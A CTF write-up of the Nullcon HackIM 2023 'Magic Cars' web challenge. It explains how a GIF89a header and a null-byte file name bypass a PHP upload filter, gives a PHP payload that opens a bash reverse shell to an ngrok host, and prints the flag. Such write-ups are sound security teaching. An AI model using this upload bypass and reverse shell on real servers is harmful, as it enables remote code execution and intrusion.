


# Nullcon Goa HackIM CTF 2023

## Web

<span style="font-size: larger;">Magic Cars</span>

Description: Who doesn't love Magical Cars? go checkout this cool website and even upload your fav gif to support it. Author: @moaath

## Challenge Overview


We have been given a website [http://52.59.124.14:10021/](http://52.59.124.14:10021/). We can see three options there. But only gallery seems to be interesting.

So first let's see the source code given.

```php
<?php
error_reporting(0);

$files = $_FILES["fileToUpload"];
$uploadOk = true;

if ($files["name"] != "") {
    $target_dir = urldecode("images/" . $files["name"]);

    if (strpos($target_dir, "..") !== false) {
        $uploadOk = false;
    }

    if (filesize($files["tmp_name"]) > 1 * 1000) {
        $uploadOk = false;
        echo "Too big!!!";
    }

    $extension = strtolower(pathinfo($target_dir, PATHINFO_EXTENSION));
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $type = finfo_file($finfo, $files["tmp_name"]);
    finfo_close($finfo);

    if ($extension != "gif" || strpos($type, "image/gif") === false) {
        echo " Sorry, only gif files are accepted";
        $uploadOk = false;
    }

    $target_dir = strtok($target_dir, chr(0));

    if ($uploadOk && move_uploaded_file($files["tmp_name"], $target_dir)) {
        echo "<a href='$target_dir'>Uploaded gif here. Go see it!</a>";
    }
}
?>
```


## Vulnerability Identification

As we can see the code is checking MIME type when we upload a gif. This leads to file upload vulnerability.

So adding gif header in the file the server can be easily exploited

[Reference](https://book.hacktricks.xyz/pentesting-web/file-upload)


## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **GIF89a**. And then we will inject some php code to exploit the server.

We will name this file as exploit.php%00.gif. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

So to exploit this server we will try to get a shell using **ngrok**

exploit.php%00.gif looks like:

```php
GIF89a
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16344 0>&1'");?>
```

## Obtaining the Flag

To retrieve the flag, we will use ngrok to get reverse shell.

After uploading the file when we open it we get the shell.

The flag is located in /var/www/html named **flag.flag**.

 

Flag: **ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}**

Thank You
